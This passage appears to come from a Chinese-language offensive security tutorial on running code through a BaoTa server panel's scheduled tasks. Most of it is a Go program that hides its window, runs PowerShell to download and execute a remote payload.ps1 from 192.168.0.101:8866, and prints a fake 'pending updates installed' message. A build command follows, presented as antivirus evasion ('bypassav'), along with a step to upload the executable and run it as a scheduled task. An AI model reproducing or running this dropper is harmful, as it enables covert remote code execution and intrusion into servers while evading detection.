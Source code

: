 ### 执行宝塔计划任务

go远程执行powershell进行免杀：

```go
package main
import (
	"fmt"
	"os/exec"
	"syscall"
)
func main() {

	cmd := exec.Command("PowerShell", "-Command", "IEX ((new-object net.webclient).downloadstring('http://192.168.0.101:8866/payload.ps1'))")
	
	cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}

	err := cmd.Start()
	if err != nil {
		fmt.Printf("something went wrong %s", err)
		return
	}
	fmt.Println("Successfully installed pending updates !")

}
```

编译成exe：

```bash
go build -ldflags="-H windowsgui -w -s" bypassav.go
```

用宝塔上传后使用其计划任务执行 bypassav.exe：

<img src=".\图片\Snipaste_2023-05-15_18-40-50.png" alt="Snipaste_2023-05-15_18-40-50" style="zoom:80%;" />
